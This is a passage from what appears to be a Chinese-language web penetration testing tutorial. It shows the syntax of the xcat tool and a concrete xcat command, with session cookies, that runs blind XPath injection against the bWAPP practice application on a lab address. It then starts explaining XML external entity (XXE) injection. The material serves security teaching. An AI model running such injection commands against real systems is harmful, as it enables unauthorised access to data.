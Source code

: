 ```
xcat -m <http_method> -c "<cookie value>" <URL_without_parameters> <injecable_parameter> <parameter1=value> <parameter2=value> -t "<text_in_true_results>"
```

在这种情况下，命令将如下所示：

```
xcat -m GET -c "PHPSESSID=kbh3orjn6b2gpimethf0ucq241;JSESSIONID=9D7765D7D1F2A9FCCC5D972A043F9867;security_level=0" http://10.7.7.5/bWAPP/xmli_2.php genre genre=horror action=search -t ">1<"
```

注意，我们使用`">1<"`作为真实字符串。这是因为结果表中的数字仅在找到至少一个结果时才会出现。对 bWAPP 运行该命令将导致类似以下的结果：

![](img/00159.jpeg)

# XML 外部实体注入

在 XML 中，一个**实体**是一个可以是内部或外部的存储单元。内部实体是指在其声明中定义了其值的实体，而外部实体则从外部资源（如文件）中获取值。当应用程序接收来自用户的一些 XML 格式的输入并处理其中声明的外部实体时，它容易受到**XML 外部实体**（**XXE**）注入的影响。
